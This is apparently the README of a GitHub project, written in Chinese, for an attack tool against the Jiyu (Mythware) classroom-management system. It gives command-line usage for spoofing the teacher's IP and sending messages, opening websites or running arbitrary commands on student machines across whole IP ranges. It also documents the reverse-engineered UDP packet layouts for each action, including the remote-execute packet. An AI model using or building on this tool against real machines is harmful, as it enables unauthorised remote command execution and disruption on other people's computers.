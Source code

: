 # Jiyu_udp_attack

利用极域电子教室的 udp 包攻击学生机。

对这方面技术的了解来自 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/)。

## Usage

你可以从 Python 导入 `Jiyu_attack` 模块，也可以使用命令行。

使用 `Jiyu_attack.py -h` 来获取帮助信息：

```
usage: Jiyu_attack.py [-h] -s TEACHER_IP -t TARGET [-p PORT] (-m MESSAGE | -w WEBSITE | -c COMMAND)

Jiyu Attack Script

options:
  -h, --help            show this help message and exit
  -s, --teacher-ip TEACHER_IP
                        Teacher's IP address
  -t, --target TARGET   Target IP address
  -p, --port PORT       Port to send packets to (default: 4705)
  -m, --message MESSAGE
                        Message to send
  -w, --website WEBSITE
                        Website URL to ask to open
  -c, --command COMMAND
                        Command to execute on the target

Github Repositories: https://github.com/weilycoder/Jiyu_udp_attack/tree/main/
```

其中目标 ip 的指定使用了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack/) 的创意，可以：

+ 指定具体 ip，如 `192.168.3.103`；
+ 指定 ip 范围，如 `192.168.3.100-150`；
+ 指定 ip 段，如 `192.168.3.0/24`。

最多指定 65536 个不同 ip。

## Jiyu API

记录抓包得到的极域 udp 包格式。

不记录包头信息，只记录 Data 格式。

子标题名是我自己起的。

### Message

用于教师端向学生端发送信息。

Data 区长 $954$。

| 长度  |                            内容                            |
| :---: | :--------------------------------------------------------: |
| $12$  |                 `444d4f43000001009e030000`                 |
| $16$  |                        随机二进制串                        |
| $28$  | `204e0000c0a86c019103000091030000000800000000000005000000` |
| $800$ |               信息内容，使用 `utf-16le` 编码               |
| $98$  |                  全 $0$ 段，可能是保留区                   |

### Execute

用于教师端在学生端远程执行命令。

Data 区长 $906$。

| 长度  |                             内容                             |
| :---: | :----------------------------------------------------------: |
| $12$  |                  `444d4f43000001006e030000`                  |
| $16$  |                         随机二进制串                         |
| $32$  | `204e0000c0a8e901610300006103000000020000000000000f00000001000000` |
| $512$ |             可执行程序位置，使用 `utf-16le` 编码             |
| $254$ |                执行参数，使用 `utf-16le` 编码                |
| $66$  |                          全 $0$ 段                           |
|  $1$  |       正常启动 `00`；最小化启动 `01`；最大化启动 `02`        |
| $13$  |                 `00000001000000000000000000`                 |

### Website

用于教师端在学生端远程打开网站。

Data 区变长。

|      长度       |                内容                |
| :-------------: | :--------------------------------: |
|       $8$       |         `444d4f4300000100`         |
|       $4$       |   $\mathrm{size}+36$，小端序编码   |
|      $16$       |            随机二进制串            |
|       $8$       |         `204e0000c0a8e901`         |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|       $4$       |   $\mathrm{size}+23$，小端序编码   |
|      $16$       | `00020000000000001800000000000000` |
| $\mathrm{size}$ |     网址，使用 `utf-16le` 编码     |
|       $4$       |             全 $0$ 段              |

## License

MIT 协议。
